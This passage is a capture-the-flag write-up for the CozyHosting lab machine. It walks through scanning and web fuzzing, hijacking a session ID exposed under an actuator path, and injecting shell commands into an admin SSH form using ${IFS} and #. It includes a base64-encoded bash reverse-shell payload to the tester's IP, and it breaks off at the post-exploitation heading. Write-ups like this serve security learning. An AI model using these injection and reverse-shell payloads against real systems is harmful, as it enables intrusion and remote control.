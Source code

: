 # Write Up
## Introduction
Before starting to present the way it has been taken to solve CozyHosting machine, I will present an outline with the concepts that will be used to solve challenge:
- Exhaustive enumeration of the website.
- Session Hijacking.
- Command injection.
- Hash cracking with Hascat.
- Abuse of ssh SUID configuration.
## Reconnaisance phase
As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, you need to add a new line in the ''/etc/hosts'' file, where you define which IP is linked to which domain name. As shown in the following image, if you want to access CozyHosting.htb, you are going to send a request to 10.10.11.230 really:

[![hosts.png](https://i.postimg.cc/x1P6MnhB/hosts.png)](https://postimg.cc/WdhmPL27)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/5yRVx8qq/Nmap.png)](https://postimg.cc/GTGNK8fH)

As shown in the last image, two open ports were discovered exposing two different services:
- Port 22: SSH service.
- Port 80: HTTP service.

Due to the fairly up-to-date version of SSH, it seems that the way to go is to perform a technology scan on port 80.

[![WhatWeb.png](https://i.postimg.cc/prjXB6k4/WhatWeb.png)](https://postimg.cc/649XWzkf)

As you can see, nginx 1.18.0 is running behind, but no important information is displayed. Therefore, the website was accessed to look for some useful information:

[![image.png](https://i.postimg.cc/xqr7KsFs/image.png)](https://postimg.cc/y3PvKTK9)

After searching for information, the only data retrieved is the login panel behind the path "/login". So a search was initiated using Wfuzz to list more paths and resources on the server.

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://CozyHosting.htb/FUZZ 
```

The following diagram represents the paths and resources found:

[![diagrama.png](https://i.postimg.cc/fRT8Ft0W/diagrama.png)](https://postimg.cc/svqPG2cb)

After finding these resources on the web, you can test some potential vulnerabilities, for example by bypassing the login panel with a SQLi or Type Juggling, etc. ..... But nothing worked.
If you find yourself in this situation and you have tested all possible vulnerabilities, it is likely that you have not done a thorough reconnaissance.  Therefore, Wfuzz was ran again with another dictionary:

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt http://CozyHosting.htb/FUZZ
```

With that dictionary, another route called "actuator" was found, if you go into it you will find more paths, as shown behind:

[![image.png](https://i.postimg.cc/DfgtjbC0/image.png)](https://postimg.cc/SjnTjjbb)
## Exploitation phase

A session ID can be found in the path "sessions". With this session ID under control it is possible to perform a session hijacking. So it was copied and pasted into the cookie that the website assigned to me.

Now, if you enter the login panel, the website redirects you directly to the administration section:

[![Admin.png](https://i.postimg.cc/90pLFS8T/Admin.png)](https://postimg.cc/XBrfs207)

Within the administration section there is only one function to exploit. Apparently, this function runs a shell command to connect via ssh to other machines, with a private key, to update their installed software. This command might be something like the following:

```bash
ssh -i id_rsa.pem <username>@<hostname>
```

Since the page is running a shell command upon receiving the request, it is likely vulnerable to command execution. Therefore, a payload "; whoami" was injected into both fields. First in the hostname field:

[![Burp2.png](https://i.postimg.cc/QNmwSS1B/Burp2.png)](https://postimg.cc/F1fTHyPm)

As you can see, this injection did not work on the hostname field, so you will probably have to enter a correct hostname. The second field was tested by entering the same payload to see the response:

[![Burp3.png](https://i.postimg.cc/QNky6SGL/Burp3.png)](https://postimg.cc/Th101V3Q)

In this case, another error is reported. As the web page tells us not to use whitespace, an Internal Field Separator was injected to see the response from the web page:

[![Burp4.png](https://i.postimg.cc/k4Mj66wV/Burp4.png)](https://postimg.cc/R38120k9)

The error changed, so the payload was injected and we are informed that the command "whoami@10.10.11.230" does not exist. So, the payload works because I am avoiding the ssh command and the whitespace was interpreted by the shell.
Now, this error can be fixed by injecting a # to comment out the rest of the command that I do not want.

[![image.png](https://i.postimg.cc/kMYbd6bj/image.png)](https://postimg.cc/vD9BrmX9)

The injected command did not return any results. But this doesn't mean that the command injection didn't work, because the web page is probably not showing the response. So why not create a server and inject a request to my server?

[![Burp6.png](https://i.postimg.cc/zfSVV3PR/Burp6.png)](https://postimg.cc/jW2s1qTs)

As you can see, this works so I am injecting shell commands into the server. It is time to create a reverse shell and get access to the server. The payload used was:

```
host=10.10.11.230&username=%3b${IFS}echo${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMC85OTk5IDA%2bJjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash%3b${IFS}%23
```

The reverse shell was encoded with the base64 algorithm to avoid problems when sending it through a request. And the entire payload was urlencoded for the same reason.

[![Evidencia.png](https://i.postimg.cc/7L8bXSTR/Evidencia.png)](https://postimg.cc/K1fZ8kf7)
## Post-Exploitation phase
